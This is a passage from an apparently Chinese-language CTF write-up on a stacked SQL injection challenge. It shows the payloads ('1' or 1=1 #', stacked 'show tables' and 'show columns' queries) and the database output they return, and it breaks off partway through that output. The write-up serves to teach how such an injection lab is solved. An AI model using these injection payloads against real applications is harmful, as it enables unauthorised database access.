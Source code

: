   说明通过了正则匹配来防止注入，`select`和`where`不能用了，所以考虑堆叠注入

- 先看一下能不能用万能密码和闭合方式

  ```
  1' or 1=1 #
  ```

  返回了类似数据库的内容

- 查看表名

  ```
  1';show tables#
  ```

  返回的数据如下

  ```php
  array(2) {
    [0]=>
    string(1) "1"
    [1]=>
    string(7) "hahahah"
  }
  -----------------------------------------------------------------------------------------------
  array(1) {
    [0]=>
    string(16) "1919810931114514"
  }
  
  array(1) {
    [0]=>
    string(5) "words"
  }
  
  ```

  说明有两个表，分别是`words`和`1919810931114514`

- 分别查看这两个表的列

  ```sq
  1';
  show columns from `words`;
  show columns from `1919810931114514`;#
  ```

  返回数据如下

  ```php
  array(6) {
    [0]=>
    string(2) "id"
    [1]=>
    string(7) "int(10)"
    [2]=>
    string(2) "NO"
    [3]=>
    string(0) ""
    [4]=>
    NULL
    [5]=>
    string(0) ""
  }
  
  array(6) {
    [0]=>
    string(4) "data"
    [1]=>
    string(11) "varchar(20)"
  ```